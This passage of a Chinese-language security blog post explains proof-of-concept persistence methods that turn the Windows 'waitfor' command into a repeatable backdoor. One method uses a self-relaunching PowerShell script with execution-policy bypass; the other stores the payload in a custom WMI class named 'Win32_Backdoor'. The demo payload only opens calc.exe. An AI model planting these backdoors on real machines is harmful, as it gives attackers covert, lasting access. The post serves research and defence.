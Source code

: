 但这不够智能，能否通过脚本实现自动开启等待模式，使其成为一个可持续触发的后门呢？

为此，我写了以下POC

#### 思路1：

在目标系统保存一个ps脚本1.ps1

1.ps1内容如下：

```bash
start-process calc.exe
cmd /c waitfor persist `&`& powershell -executionpolicy bypass -file c:\test\1.ps1

```

**注：**

转义字符&在powershell中要用`&表示

**开启等待模式：**

cmd：

```
waitfor persist1 && powershell -executionpolicy bypass -file c:\test\1.ps1

```

**发送信号：**

cmd：

```
waitfor /s 127.0.0.1 /si persist1

```

#### 思路2：

不在目标系统保存文件

这里使用一个之前在《WMI backdoor》中介绍过的技巧，将payload保存在WMI类中，进行读取使用

存储payload：

（管理员权限）

```bash
$StaticClass = New-Object Management.ManagementClass('root\cimv2', $null,$null)
$StaticClass.Name = 'Win32_Backdoor'
$StaticClass.Put()
$StaticClass.Properties.Add('Code' , "cmd /c start calc.exe")
$StaticClass.Put() 

```

读取payload：

```bash
([WmiClass] 'Win32_Backdoor').Properties['Code'].Value

```
